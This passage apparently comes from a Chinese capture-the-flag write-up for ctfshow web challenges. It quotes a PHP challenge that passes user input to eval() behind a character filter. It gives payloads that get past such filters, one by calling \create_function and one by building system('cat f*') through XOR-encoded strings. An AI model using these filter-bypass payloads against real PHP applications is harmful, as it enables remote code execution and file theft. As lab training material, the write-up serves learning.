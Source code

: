 所以我们可以通过\create_function()来绕过这个正则表达式

payload:

```
GET show=;};system('cat f*');/*
POST ctf=\create_function
```



#### web148

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-19 03:52:11

*/



include 'flag.php';
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if(preg_match("/[A-Za-z0-9_\%\\|\~\'\,\.\:\@\&\*\+\- ]+/",$code)){
        die("error");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}

function get_ctfshow_fl0g(){
    echo file_get_contents("flag.php");
}
```

没ban异或运算符

payload:

```
("%08%02%08%09%05%0d"^"%7b%7b%7b%7d%60%60")("%03%01%09%01%06%02"^"%60%60%7d%21%60%28");
//system("cat f*");
```



#### web149
